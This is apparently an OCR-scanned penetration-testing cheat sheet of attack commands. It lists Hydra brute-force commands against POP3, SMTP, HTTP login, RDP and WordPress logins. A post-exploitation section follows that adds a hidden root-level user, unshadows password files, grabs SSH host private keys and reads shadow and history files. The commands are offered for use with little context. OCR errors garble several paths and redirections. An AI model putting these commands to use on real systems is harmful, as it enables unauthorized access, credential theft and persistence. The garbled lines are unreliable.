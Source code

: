 ▪ hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f &gt; $ip pop3 -V

```text
> $ Hydra SMTP Brute Force
```

▪ hydra -P /usr/share/wordlistsnmap.lst &gt; $ip smtp -V

```text
> $ Hydra attack http get 401 login with a dictionary
```

▪ hydra -L ./webapp.txt -P ./webapp.txt &gt; $ip http-get /admin

```text
> $ Hydra attack Windows Remote Desktop with rockyou
```

▪ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp:// &gt; $ip

```text
> $ Hydra brute force a Wordpress admin login
```

▪ hydra -l admin -P ./passwordlist.txt &gt; $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

## POST EXPLOITATION LINUX

Add user with root privs:

> $ sudo useradd -ou 0 -g 0 john  
> $ sudo passwd John@1234

Combie shadow and passwd files:

> $ unshadow passwd.txt shadow.txt &gt; passwords.txt

Find listening services:

> $ netstat -alp

Copy ssh private kets:

> $ /etc/ssh/ssh\_host\_dsa\_key  
> $ /etc/ssh/ssh\_host\_key

Check interseting files

> $ /var/log  
> $ /var/log/secure  
> $ /etc/passwd  
> $ /etc/shadow  
> $ ~/.bash\_history  
> $ ~/.mysql\_history  
> Check log files of some of the services:  
> $ http  
> $ ftp  
> $ ssh  
> ▪ grep 'sshd' /var/log/auth.log
